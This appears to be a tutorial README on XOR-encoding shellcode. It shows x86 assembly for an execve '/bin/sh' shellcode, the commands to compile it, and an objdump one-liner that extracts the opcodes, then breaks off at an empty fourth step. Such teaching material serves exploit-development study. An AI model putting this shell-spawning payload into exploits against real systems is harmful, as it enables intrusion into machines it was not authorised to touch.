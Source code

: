 # XOR Encoder

## Basic XOR Encoding/Decoding
```ASM
(A XOR B) XOR B = A
```

## XOR Encoding Process
#### 1) Create execve_04_sh_stack.nasm file
```ASM
global _start

section .text

_start:

	xor eax, eax			; Preparing Nulls in EAX register
	push eax			; Pushing the first Null DWORD
	
	push 0x68732f6e			; //bin/sh in reverse order
	push 0x69622f2f
	
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	
	; syscall()
	mov al, 0xb
	int 0x80
```
#### 2) Compile it
```bash
$ nasm -f elf32 -o execve_04_sh_stack execve_04_sh_stack.nasm
$ ld -o execve_04_sh_stack execve_04_sh_stack.o
```
#### 3) Extract shellcode from the binary
```bash
# This will only outputs the shellcode with copy and paste friendly format
# https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump

objdump -d ./PROGRAM | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```
#### 4) 

